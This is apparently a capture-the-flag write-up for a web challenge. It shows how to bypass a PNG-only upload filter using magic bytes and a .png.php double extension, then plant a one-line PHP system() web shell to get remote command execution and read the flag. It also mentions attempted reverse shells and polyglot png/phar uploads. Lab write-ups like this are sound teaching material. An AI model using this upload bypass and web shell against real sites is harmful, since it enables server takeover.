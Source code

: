 # Trickster - Web
![image](https://github.com/JosephB10/CTF-Writeups/assets/105746932/30fc0bfe-3ebd-4de5-9c2d-032677985a76)
## Hints
- None
## Solution
You are given a website with a file uploader and a note that you can only upload PNG pictures for processing.
<br><br>Without using a directory fuzzer, or at least checking `robots.txt` this CTF is kinda obscure. (I thought fuzzing was generally out of scope.)

The Solution.
- Pick any PNG file and capture the POST with burpsuite
- Delete everything behind the `PNG` written in the data dump 
  - This leaves the PNG header magic bytes at the top of the file
  - Which is all the filter checks for
- Change the title of the .PNG file to `something.png.php` 
  - This satisfies the requirement to have .png in the name, but will execute as .php
- Add `<?php echo system($_GET['cmd']); ?>` to the body of the message where the picture information would normally be
  - This inputs php code that you can later call on for an RCE
- Then navigate to the upload page and add `.../uploads/something.png.php?cmd=   `
  - Now you can enter any command you want after cmd and the code in your picture will execute it
  - I knew we were in `/var/www/html/uploads` because of some errors that were thrown when I was exploring earlier
  - `ls /var/www/html`    -->  Came back with
    -  ` GAZWIMLEGU2DQ.txt index.phpinstructions.txtrobots.txt uploads uploads`
  - `cat /var/www/html GAZWIMLEGU2DQ.txt` gave the flag

<br><br>
## Random Notes
Once I found out I had code execution I tried to get reverse shells (a php shell, and then a python shell with the RCE) but it didn't work
- They would hang the program but not actually reach my machine
 

<br>I probably would've solved this problem within the first hour if I had fuzzed the directories
- However I thought this was out of scope and so the only way I found the solution was randomly trying to reach `/uploads` in a moment of desperation
 
<br>Also once I had RCE there was a directory called `challenge` which I didn't have access to as user `www-data`
- So I spent some time trying to find a way to elevate my privileges and/or throw a rev shell so I could get access to that directory
- Turns out the weirdly named file in `/var/www/html` was the flag
 
<br>Learned about `polyglot` files and spent a lot of time researching png/phar combo's
- That way I could upload a valid png file with a php executable code tacked on to the end of it
- and there were multiple processing calls that could've been in the source code and would've executed the phar stub
- Which made sense with the way the CTF was worded
 
<br>Also learned about `multipart form-data` vulnerabilities 
- Trying to get these two solutions to work cost me a LOT of time



<br>
A useful resource for upload form attacks
https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/
